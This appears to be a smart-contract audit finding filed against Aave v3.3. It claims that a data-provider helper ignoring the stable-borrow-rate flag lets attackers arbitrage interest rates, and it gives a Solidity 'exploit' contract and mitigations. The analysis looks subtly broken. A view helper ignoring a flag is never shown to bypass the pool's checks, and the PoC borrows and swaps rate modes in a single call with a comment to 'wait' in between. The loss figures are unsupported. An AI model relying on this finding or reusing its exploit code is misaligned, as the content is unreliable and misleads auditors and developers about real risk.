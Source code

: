 Fast Scarlet Beaver

High

# Malicious users can exploit interest rate inconsistency affecting protocol solvency

### Summary

Ignoring `stableBorrowRateEnabled` flag can cause significant economic damage to the protocol as malicious users exploit interest rate arbitrage when stable and variable rates become misaligned


### Root Cause

In src/contracts/helpers/AaveProtocolDataProvider.sol#101 (https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/AaveProtocolDataProvider.sol#L101) the `stableBorrowRateEnabled` flag from `configuration.getFlags()` is ignored, which can lead to incorrect interest rate mode decisions




### Internal Pre-conditions

1. `AaveProtocolDataProvider` needs to have `stableBorrowRateEnabled` flag ignored in `getFlags()` return values
2. The market conditions need to create a significant spread between stable and variable rates
3. Users need to have sufficient collateral to borrow large amounts


### External Pre-conditions

Market volatility causes variable rates to move significantly

### Attack Path

1. Attacker monitors the actual `stableBorrowRateEnabled` status through direct contract calls
2. When stable rates are significantly lower than variable rates but should be disabled:
   a. Attacker borrows large amounts using stable rate when UI/integration shows it should be impossible
   b. Interest rates continue to diverge due to market conditions
3. Attacker later refinances to variable rate when profitable
4. Repeats the process across multiple assets

### Impact

1.  The protocol suffers significant losses due to interest rate arbitrage, estimated around 2-5% APY loss on affected assets
2. Users face increased borrowing costs as the protocol tries to rebalance rates
3. The protocol's economic model becomes unstable

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

import {IPool} from "@aave/core-v3/contracts/interfaces/IPool.sol";
import {IPoolAddressesProvider} from "@aave/core-v3/contracts/interfaces/IPoolAddressesProvider.sol";
import {DataTypes} from "@aave/core-v3/contracts/protocol/libraries/types/DataTypes.sol";

contract AaveInterestExploit {
    IPool public pool;
    address public constant USDC = address(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    
    constructor(address _addressProvider) {
        pool = IPool(IPoolAddressesProvider(_addressProvider).getPool());
    }

    function exploitInterestRates(uint256 amount) external {
        // Step 1: Borrow with stable rate when it should be disabled
        pool.borrow(
            USDC,
            amount,
            1, // Stable rate mode
            0, // referralCode
            msg.sender
        );

        // Step 2: Wait for rates to diverge further
        // This would happen over time in real scenario
        
        // Step 3: Switch to variable rate when profitable
        pool.swapBorrowRateMode(
            USDC,
            1 // from stable to variable
        );
    }
}
```

### Mitigation

1. Properly handle all return values from `configuration.getFlags()` including `stableBorrowRateEnabled`
2. Add explicit checks for `stableBorrowRateEnabled` before allowing stable rate borrows
3. Implement rate switching cooldown periods
4. Add circuit breakers for significant rate divergence